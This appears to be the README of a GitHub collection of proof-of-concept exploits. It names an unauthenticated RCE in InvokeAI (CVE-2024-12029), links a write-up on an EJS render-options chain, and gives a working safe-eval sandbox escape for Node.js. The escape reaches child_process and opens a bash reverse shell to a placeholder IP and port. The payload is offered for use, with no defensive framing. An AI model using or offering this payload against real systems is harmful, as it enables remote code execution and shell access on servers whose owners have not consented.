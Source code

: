 # PoCs

## CVE 2024-12029
Unauth RCE in InvokeAI. The vulnerability was discovered by @jackfromeast. Here is a Python3 version

## Node JS
### EJS v3.1.9 (valid from EJS v2.6.2 to v3.1.9)
[Chain of Unrestricted Render Options](https://github.com/apostolovd/PoCs/blob/main/EJS/Chain%20of%20Unrestricted%20Render%20Options.pdf)

### safe-eval bypass
It works with valuesOf(), toLocaleString(), propertyIsEnumerable.call()
> (function() {try{valueOf()} catch(rce){rce.constructor.constructor('return process')().mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`); }})()

